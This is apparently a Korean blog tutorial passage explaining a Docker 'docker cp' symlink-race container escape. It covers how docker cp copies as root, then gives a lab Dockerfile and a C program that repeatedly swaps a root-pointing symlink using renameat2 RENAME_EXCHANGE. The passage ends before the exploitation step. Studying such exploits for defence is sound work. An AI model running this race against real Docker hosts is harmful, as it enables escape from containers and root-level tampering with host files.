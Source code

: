

<h3>0x3. Proof of Concept</h3>

익스를 하기 전에 알고있어야 할 명령어가 있다. 

<h4>Base - Docker cp</h4>

도커에는 `docker cp`라는 명령어가 존재한다. 이는, 도커 컨테이너와 로컬 간의 파일에 대한 복사를 수행해주는 명령어이다. 간단한 예를 들자면 아래와 같이 사용한다.

``` dockerfile
# Container -> Local 
docker cp [OPTIONS] CONTAINER:SRC_PATH DEST_PATH|

# Local -> Container
docker cp [OPTIONS] SRC_PATH| CONTAINER:DEST_PATH
```

이 명령어를 수행할 때 실제로는 `CONTAINER:SRC_PATH`의 절대주소가 `DEST_PATH`로 복사되고 반대로 복사할 때도 마찬가지이다.  단 이때 도커는 기본적으로 루트 권한으로 동작하기 때문에 `docker cp`명령어가 파일을 복사할 때 역시 <span style="color:orange">루트 권한으로 진행된다. </span>



<h4>Setting</h4>

이제는 익스플로잇을 위한 환경 세팅을 해보자.  우선 실습을 진행할 도커파일이 필요하다. 

```dockerfile
#우분투 18.04 기반 이미지 
FROM ubuntu:18.04  
# 이미지 구성
RUN apt-get update && apt-get install -y gcc 
# DockerFile과 같은 dir에 있는 symlink_swap.c를 컨테이너에 복사
COPY symlink_swap.c /symlink_swap.c 
# 컨테이너 내부의 symlink_swap.c를 컴파일
RUN gcc -o /symlink_swap /symlink_swap.c
# Entrypoint를 symlink_swap으로 설정
ENTRYPOINT ["/symlink_swap"]
```

다음으로 취약한 코드인 `symlink_swap.c`를 아래와 같이 만들자. 

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>
#include <fcntl.h>

int main()
{
	symlink("/", "/totally_safe_path"); // root dir에 /totally_safe_path를 심볼릭 링크 연결
	mkdir("/totally_safe_path-stashed", 0755); //dir 생성

	while (1) //계속 반복
		renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);// 이름교환

	return 0;
}
```
